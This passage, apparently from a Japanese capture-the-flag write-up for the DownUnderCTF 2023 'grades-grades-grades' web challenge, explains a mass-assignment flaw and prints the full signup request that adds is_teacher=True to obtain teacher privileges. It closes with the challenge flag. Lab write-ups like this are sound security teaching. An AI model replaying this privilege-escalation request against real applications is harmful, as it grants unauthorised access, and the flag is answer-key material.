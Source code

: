 ```python
    return render_template('signup.html')
<SNIP>
```

リクエストで送った値をそのまま`jwt_data`としている。

```python
jwt_data = request.form.to_dict()
```

後は、権限を判定している`is_teacher`に適当な値を入れて登録するだけ。

```http
POST /signup HTTP/2
Host: web-grades-grades-grades-c4627b227382.2023.ductf.dev
Content-Length: 82
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stu_num=salt&stu_email=salt%40example.com&password=hjfkdsahjkgldsa&is_teacher=True
```

登録後、`/grades_flag`にアクセスするとFlagが取得できる。

- Flag

```text
DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}
```
